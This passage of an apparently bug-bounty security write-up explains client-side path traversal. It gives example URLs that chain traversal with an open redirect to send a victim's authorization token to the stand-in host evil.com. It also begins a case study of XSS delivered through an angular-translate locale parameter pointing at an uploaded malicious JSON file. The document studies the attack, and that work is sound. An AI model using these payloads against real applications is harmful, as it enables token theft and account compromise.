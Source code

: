 This is a theoretical exploit that I've never encountered in the real world.

Imagine the application uses a custom header for authorization (as opposed to
cookies), and we have an open redirect (the HTTP kind) on the host towards
which requests can be diverted. Then we would be able to send requests to our
own server, and those requests will contain our victim's token. For example,
visiting the following URL:

```escape
https://app.target.com/users?id=<!../../path/to/open/redirect%3Furl%3D%2F%2Fevil.com!>
```

will send an authenticated request to:

```escape
https://api.target.com/<!path/to/open/redirect?url=//evil.com!>
```

and this request, headers included, will be redirected to `https://evil.com`.


## Real-world examples

Despite the attack having quite a few requisites, I've been able to
successfully exploit it on a multiple occasions. Since they were all on private
programs, I'll remain somewhat vague and change all URLs that would be
identifiable.

### Case 1: XSS in translation file
{: #case-1}

The target was a web application for secure sharing of documents within an
organization. Documents of all kinds could be uploaded, and one of the feature
was sharing a preview of a document with co-workers. A preview which, in the
case of a text file, was just the file itself. The name of the preview file was
a randomly generated UUID.

The application also had an integrated web editor. This web editor used
angular-translate for i18n, and the locale could be set through the `locale`
query parameter. The translation file was loaded from

```escape
https://app.target.com/i18n/locale-<!<locale>!>.json
```

where `<locale>` was the value of the `locale` query parameter. One
particularity is that the locale had to start with `en-` (or any other
supported language), or angular-translate would error out and skip loading the
translations.

All you had to do was upload a malicious json document that would add an XSS
payload to the translation of the appropriate message, share it with your team,
and make one of your team members visit:

```escape
https://app.target.com/path/to/web_editor?lang=<!en-/../../path/to/preview/uuid?!>
```
